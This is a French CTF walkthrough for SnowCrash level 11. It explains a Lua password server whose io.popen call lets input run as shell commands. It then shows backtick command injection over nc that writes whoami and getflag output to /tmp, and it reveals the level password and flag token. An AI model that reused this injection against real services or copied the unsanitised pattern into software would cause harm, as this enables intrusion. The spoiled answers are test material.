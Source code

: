On trouve dans le dossier home un file **level11.lua** qui contient:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

On abserve que le programme est lancé sur **127.0.0.1:5151**, donc pour pouvoir interagir avec on utilise:
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

En regardant le programme de plus pres, on se rend compte qu'une injection est possible <code>io.popen("echo "..pass.." | sha1sum", "r")</code> car il execute la variable pass, qui est notre input.
De plus la deuxieme partie du code ne sert a rien cart même un a message peut importe le mot de passe
> Le bon mot de passe est: **NotSoEasy** (rajouter un -n devant pour que cela fonctionne)

On essaye :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> On stocke le resultat dans un fichier car sinon il n'y a pas d'affichage car il ne s'agit pas d'un <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>